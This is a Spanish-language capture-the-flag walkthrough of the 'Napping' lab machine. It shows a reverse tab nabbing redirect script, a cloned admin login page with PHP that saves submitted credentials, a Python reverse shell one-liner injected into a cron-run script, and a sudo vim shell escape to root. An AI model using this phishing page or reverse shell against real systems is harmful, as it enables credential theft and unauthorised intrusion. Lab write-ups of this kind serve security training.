 {% embed url="https://github.com/Paradoxis/Flask-Unsign" %}
# Napping

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `HTTP`.

<figure><img src="../.gitbook/assets/napping/nmap.png" alt=""><figcaption></figcaption></figure>

Accedimos a la página web en el puerto **80** y creamos una cuenta para explorar su contenido.

<figure><img src="../.gitbook/assets/napping/signup.png" alt=""><figcaption></figcaption></figure>

Realizamos una enumeración de directorios en el puerto **80** para descubrir qué podemos encontrar.

<figure><img src="../.gitbook/assets/napping/dirsarch.png" alt=""><figcaption></figcaption></figure>

Encontramos algunos directorios, pero no son nada inusuales, ya que no contamos con credenciales. Por lo tanto, revisemos la página web que se carga normalmente.

En la página, encontramos el siguiente mensaje:

```
# Please submit your link so that we can get started.  
All links will be reviewed by our admin who also built this site!
```


Esto nos proporciona un vector de ataque, ya que el administrador del sitio revisará el contenido que subamos.

<figure><img src="../.gitbook/assets/napping/web.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/napping/req.png" alt=""><figcaption></figcaption></figure>

Examinamos el código del sitio web en busca de posibles vectores de ataque y efectivamente encontramos **Reverse Tab Nabbing**. Esto se debe al atributo `target="_blank"`, que nos permite redirigir a una página clonada para robar credenciales.

```
Luego, una vez que la víctima haga clic en el enlace y acceda al sitio web de los atacantes, este sitio web malicioso podrá controlar la página original a través de la ventana del objeto JavaScript.
```

Para  saber mas de este ataque: 

{% embed url="https://book.hacktricks.wiki/en/pentesting-web/reverse-tab-nabbing.html" %}


Primero, como observamos en la enumeración del sitio web, podemos acceder a la página de inicio de sesión de los administradores `/admin/login.php`. Por lo tanto, necesitaremos clonarla y añadir un fragmento de código para capturar las credenciales.

Comenzamos creando nuestro **`index.php`**, que nos permitirá redirigir la página a nuestro servidor hacia la versión clonada.

```PHP
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://<yourip>:<port>/index.php";
  </script>
 </body>
</html>
```

Clonamos la página de **`/admin/login.php`** y añadimos el siguiente código, que nos permite capturar y enviar a nuestro servidor las credenciales de un administrador mediante una solicitud **`POST`**.

``` PHP
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>
```

El código final en `login.php` se presentaría de la siguiente manera.

``` PHP

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<?php
	if(isset($_POST['username'])){
		file_put_contents('creds.txt', file_get_contents('php://input'));
	}

?>

<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>


```

Ahora solo necesitamos iniciar un servidor `HTTP` para acceder a la URL de `index.php`, lo que permitirá redirigir a los usuarios a nuestro servidor con la página clonada.

<figure><img src="../.gitbook/assets/napping/clone.png" alt=""><figcaption></figcaption></figure>


<figure><img src="../.gitbook/assets/napping/CREAD.png" alt=""><figcaption></figcaption></figure>

De esta manera, conseguimos nuestras credenciales de administrador y accedemos a la página `/admin/login.php` para explorar su contenido. Sin embargo, lamentablemente, no encontramos nada interesante.

<figure><img src="../.gitbook/assets/napping/daniel.png" alt=""><figcaption></figcaption></figure>

Finalmente, intentamos acceder a través del puerto `SSH` y confirmamos que podemos ingresar sin problemas.

<figure><img src="../.gitbook/assets/napping/danielshh.png" alt=""><figcaption></figcaption></figure>

# Shell \daniel

Al realizar la enumeración de procesos con `pspy64`, podemos observar que hay varios procesos que se ejecutan de manera regular.

```
2025/08/25 00:40:01 CMD: UID=0     PID=1805   | /bin/sh -c /usr/bin/rm /home/adrian/site_status.txt 
2025/08/25 00:40:01 CMD: UID=0     PID=1806   | /bin/sh -c /usr/bin/python3 /root/del_links.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1807   | /bin/sh -c /usr/bin/python3 /root/nap.py 
2025/08/25 00:40:01 CMD: UID=1000  PID=1808   | /bin/sh -c /usr/bin/python3 /home/adrian/query.py 
2025/08/25 00:40:01 CMD: UID=0     PID=1809   | /usr/bin/python3 /root/del_links.py 

```

Verificamos que contamos con permisos de escritura en el archivo `/home/adrian/query.py`, y efectivamente los tenemos. Esto nos permite escalar privilegios a `adrian` si implementamos un reverse shell.

<figure><img src="../.gitbook/assets/napping/adrianquery.png" alt=""><figcaption></figcaption></figure>

Incorporamos el siguiente código, especificando la dirección `IP` y el puerto del atacante.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```

Quedaría de la siguiente forma.

```
from datetime import datetime
import requests

now = datetime.now()

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.30",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()

```

<figure><img src="../.gitbook/assets/napping/adianfalg.png" alt=""><figcaption></figcaption></figure>
# Shell \adrian


{% embed url="https://0xffsec.com/handbook/shells/full-tty/" %}

Al ejecutar `sudo -l`, observamos que tenemos la capacidad de ejecutar `/usr/bin/vim` como root, por lo que decidimos investigar más al respecto.

{% embed url="https://gtfobins.github.io/gtfobins/vim/" %}

A continuación, ejecutamos el siguiente comando.

```
sudo -u root /usr/bib/vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/napping/sudo-l.png" alt=""><figcaption></figcaption></figure>

De esta manera, logramos obtener la shell de root junto con su bandera.

<figure><img src="../.gitbook/assets/napping/rootfla.png" alt=""><figcaption></figcaption></figure>

****************

>*Tu mente se satura al consumir tanto contenido. Piensa en lo que sucede cuando comes en exceso: te sientes pesado, letárgico y te cuesta moverte. Tu cuerpo clama por un descanso para poder digerir todo lo que has ingerido. Lo mismo ocurre con tu mente. Te despiertas y, de inmediato, comienzas a consumir stories, tomas café mientras escuchas podcasts, almuerzas viendo videos, trabajas con música de fondo, te relajas con series y te duermes con ruido relajante.*
>
>*El problema no radica en cada una de estas actividades por separado, sino en la falta de pausas para tu mente. Nunca le das la oportunidad de procesar lo que ha consumido, lo que resulta en una indigesta mental constante. Naces en un vacío, sin aburrimiento ni silencio, en un espacio incómodo donde tu mente no tiene hambre. Se ve obligada a crear lo que te gustaría consumir.*
>
>*Si deseas volver a crear, considera hacer un ayuno mental. Dale a tu mente el tiempo que necesita para procesar, digerir y, finalmente, generar algo propio. Al final, tienes dos opciones: consumir la creatividad de otros o crear la tuya. La elección es tuya.*
>
><figure><img src="../.gitbook/assets/napping/touhou.jpeg" alt=""><figcaption></figcaption></figure>